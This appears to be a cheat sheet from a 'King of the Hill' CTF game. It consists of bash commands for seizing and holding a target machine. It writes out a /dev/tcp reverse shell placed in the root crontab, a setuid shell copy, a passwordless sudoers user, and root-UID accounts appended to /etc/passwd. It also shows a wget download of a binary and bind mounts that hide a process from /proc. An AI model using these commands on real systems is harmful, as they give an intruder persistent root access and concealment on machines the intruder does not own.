 ### BackDoor ✅
```bash

comando="/bin/bash -c 'bash -i >& /dev/tcp/$ip_address/$port_address 0>&1'"
echo "* * * * * root $comando" | sudo tee -a /etc/crontab > /dev/null-

echo \"* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.8.118.131/1337 0>&1'\" >> /etc/crontab

cp /bin/sh /home/sh && chmod u+s /home/sh

useradd ali && (echo -e 'Mobin@\nMobin@' | passwd ali) && (echo "ali ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)

echo 'mobin:$1$8VO3cUZu$als/bleGjZ3SVjE5EGzvh/:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'mobin:$6$/LuWBv7L4QbfG1kf$pb0sFxOLHKiMNiAr2vMdpRc2e8mljxoUlm33fY6KEXLzcH7K51zegdnOYygurWuP/2.KW3eQvcBHXBn9/Jqnj0:0:0:root:/root:/bin/bash' >> /etc/passwd
password=Mobin@
```
### Not_Be-king ✅
```bash
chattr -R -ia /root
chattr -R -ia /root/king.txt

set +o noclobber /root/king.txt

sudo umount -l /root
sudo umount -l /root/king.txt

wget http://$ip_address:$port_address/chattr
chmod +x chattr
```
### mount-trick ✅
```bash
sudo lessecho solcoteh > /root/king.txt
sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100
sudo mkfs.ext3 /dev/shm/root_f
sudo mkdir /dev/shm/sqashfs
sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/
sudo chmod -R 777 /dev/shm/sqashfs/
sudo lessecho solcoteh > /dev/shm/sqashfs/king.txt
sudo mount -o ro,remount /dev/shm/sqashfs
sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt
sudo rm -rf /dev/shm/root_f 

mkdir /tmp/hidden
echo "$$" (Show our PID)
mount -o bind /tmp/hidden /proc/your-PID-here (Hide your PTS)

mkdir /dev/shm/.hidden && mount -o bind /dev/shm/.hidden /proc/$pid (Hide your PTS)
```
### symbolic-link-Tricks ✅
```bash
cp -r /root/ /dev/shm/...
cd /dev/shm/.../root
rm king.txt
echo "YourNick" > ...
ln -s ... king.txt
```
### Kill_enemy_shell ✅
```bash

tty (If you're looking for your pts id/number)
```